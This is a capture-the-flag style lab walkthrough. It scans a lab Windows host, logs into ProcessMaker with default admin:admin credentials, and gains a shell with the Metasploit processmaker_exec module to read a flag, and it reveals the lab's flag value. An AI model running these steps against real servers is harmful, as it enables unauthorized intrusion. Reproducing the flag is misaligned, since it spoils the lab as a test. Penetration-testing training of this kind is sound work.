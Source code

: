 # 🔬Win Workflow Platform - MSF

## Lab 1

>  🔬 [Windows: Workflow Platform](https://attackdefense.com/challengedetailsnoauth?cid=1946)
>
>  - Target IP: `10.2.27.1`
>  - Exploit a vulnerable ProcessMaker server with **Metasploit**

```bash
nmap -sS -sV 10.2.27.1
```

```bash
80/tcp    open  http               Apache httpd 2.2.23 ((Win32) PHP/5.2.14)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql              MySQL (unauthorized)
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### Enumeration

- Explore the web application hosted on the web server, before running any vuln scanners

```bash
firefox 10.2.27.1
```

![](assets/image-20230423234005218.png)

- View the web page source code. In this case no **version information** can be found.
- Search online for `ProcessMaker` [default credentials](https://wiki.processmaker.com/index.php/2.0/Login_Settings#:~:text=If%20ProcessMaker%20was%20just%20installed,Password%3A%20admin)
  - `admin`:`admin`

![ProcessMaker v. 2.5.0](assets/image-20230423234454523.png)

### Exploitation

```bash
searchsploit ProcessMaker
# Try "ProcessMaker Open Source - (Authenticated) PHP Code Execution (Metasploit)"

cd Desktop
searchsploit -m 29325
less 29325.rb
rm 29325.rb
# In this case a Metasploit module will be used
```

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.27.1
setg RHOST 10.2.27.1
workspace -a ProcessMaker
```

```bash
search ProcessMaker
use exploit/multi/http/processmaker_exec
options
set USERNAME admin
set PASSWORD admin
run
```

![Metasploit - exploit/multi/http/processmaker_exec](assets/image-20230423235111771.png)

```bash
pwd
cd /
dir
cat flag.txt
```



<details>
<summary>Reveal Flag: 🚩</summary>



`a3dcb4d229de6fde0db5686dee47145d`

![](assets/image-20230423235156384.png)

</details>

------


